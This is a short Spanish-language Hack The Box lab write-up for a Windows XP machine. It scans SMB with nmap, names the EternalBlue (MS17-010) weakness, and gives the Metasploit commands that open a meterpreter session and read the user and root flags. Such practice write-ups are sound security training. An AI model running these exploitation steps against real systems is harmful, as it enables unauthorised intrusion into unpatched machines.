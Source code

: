 Maquina: Windows
Level: Easy
IP: 10.10.10.4

## Herramientas a utilizar:

- nmap
- metaexploit

### Fase 1 Enumeracion 

```
PS> nmap -A -o scan_legacy.txt 10.10.10.4
```
Esto no traera lo siguiente puerto
|PORT|STATE| SERVICE|VERSION|
|----|----|----|----|
|139/tcp|  open|   netbios-ssn|   Microsoft Windows netbios-ssn
|445/tcp|  open|  microsoft-ds|  Windows XP microsoft-ds
|3389/tcp| closed| ms-wbt-server|

La parte muy importante a destacar en esta maquina es que mas abajo no dice que la version de SMB que este equipo tiene es smb1 la cual es vulnerable a **eternablue.**

### Fase 2 Explotacion
Aqui utilizaremos MetaExploit
```
msfconsole
msf6> use exploit/windows/smb/ms17_010_psexec
set rhost 10.10.10.4
set lhost 10.10.14.x (la ip que nos asigna la vpn_htb).
run
```

Con esto ya tenemos **meterpreter>** desde aqui solo es enumerar.
```
cd c:\Documents and Settings\john\Desktop
```
Flag del user `type user.txt`
```
cd C:\Documents and Settings\Administrator\Desktop\
```
Flag del root `type root.txt`
